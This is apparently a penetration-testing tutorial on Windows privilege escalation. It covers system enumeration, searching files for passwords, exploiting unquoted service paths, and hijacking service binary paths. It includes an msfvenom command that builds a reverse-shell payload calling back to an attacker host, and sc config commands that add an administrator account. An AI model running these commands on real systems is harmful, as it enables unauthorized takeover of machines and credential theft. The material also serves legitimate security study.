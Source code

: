 # Privilege escalation: Windows

If you started hacking on Linux, Windows can be frustrating and weird. But that's what most networks are running, from desktops to domain controllers. So you just have to get used to it.

## Gathering system information

These commands can be issued remotely using a cmd.exe shell.

### System information

```text
systeminfo
```

### OS version

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### Active network connections

```text
netstat -ano
```

### Firewall settings

```text
netsh firewall show state
netsh firewall show config
```

### Scheduled tasks

```text
schtasks /query /fo LIST /v
```

### Running processes

Running processes linked to services:

```text
tasklist /SVC
```

Running services:

```text
net start
```

### Installed drivers

```text
DRIVERQUERY
```

### Installed patches

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Interesting files
Search for files that contain ‘password’ in the filename:

```text
dir /s *password*
```

Search for the keyword ‘password’ in files with the .txt extension:

```text
findstr /si password *.txt
```

## Unquoted service path

This is a common vulnerability for installed programs that don't put quotes around the file path to the executable:

```text
C:\Program Files\Some Software\Software.exe     #unquoted

"C:\Program Files\Some Software\Software.exe"
```

When Windows tries to locate the program, it guesses and tries to execute any word before a space. For example, in the unquoted service path above, Windows will try:

```text
C:\Program.exe

C:\Program Files\Some.exe

C:\Program Files\Some Software\Software.exe
```

An attacker could exploit this behaviour by putting a malicious program earlier in the file path so that Windows executes it before the legitimate one. In order for this to be successful, these conditions must be true:

1. There is a service with an unquoted binary path containing one or more spaces in the path
2. The current user has Write permissions for the folders containing spaces
3. There is a way to reboot the system or service in order to execute a payload

List all services with an unquoted service path:
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If this returns a an unquoted service path, use ICACLS to check permissions on each directory in the path:
```
icacls "C:\Program Files\Some Software\"
```
If you can write to this directory, you can replace the executable with malicious one called `Some.exe`. This principle also applies to higher folders in the directory structure, if you have write permissions ('C:\' and 'C:\Program Files\'.

You can create a malicious .exe that sends a reverse shell to your machine with Metasploit (assuming there is no antivirus, haha):
```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f exe -o servicename.exe
```
Then restart the service:
```
sc stop [service name]

sc start [service name]
```
If you don't have permission to restart the service, you'll have to wait for a system reboot or a more privileged user to restart it.

If you're super lazy you can just use this Metasploit module: ```exploit/windows/local/trusted_service_path```

## Modifying binary service path
Similar to the unquoted service path vulnerability, you can attempt to modify the file path of a service and point it to a malicious executable in a writable directory. 

Windows has a tool called named accesschk.exe which checks permissions. To display services which can be modified by an authenticated user:
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
A service with write permissions for an authenticated user looks like this:
```
RW [service name] SERVICE_ALL_ACCESS
```
Show the service properties:
```
sc qc [service name]
```
This is where you can find out the BINARY_PATH_NAME value. Change the binary path on a particular service:
```
sc config [service name] binpath= "malicious executable path"
sc stop [service name]
sc start [service name]
```
You can also add a new user and grant administrator rights using the binary path:
```
sc config [service name] binpath= "net user admin password /add"
sc stop [service name]
sc start [service name]
sc config [service name] binpath= "net localgroup Administrators admin /add"
sc stop [service name]
sc start [service name]
```
Again, if you're super lazy here's a Metasploit Module: ```exploit/windows/local/service_permissions```
